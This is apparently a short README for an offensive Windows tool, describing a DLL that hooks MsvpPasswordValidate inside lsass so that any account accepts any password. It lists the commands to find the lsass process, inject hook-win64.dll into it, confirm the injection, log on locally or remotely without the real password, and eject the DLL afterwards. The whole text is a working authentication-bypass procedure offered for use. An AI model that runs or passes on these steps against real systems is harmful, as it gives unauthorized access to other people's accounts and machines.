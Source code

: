 Hook MsvpPasswordValidate, always return 1 and log on with any account (local or remote) and any password.

How to proceed:</br></br>
Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass</br>
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!</br>
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>

Windows 10 only (since MsvpPasswordValidate now moved in ntlmshared.dll).
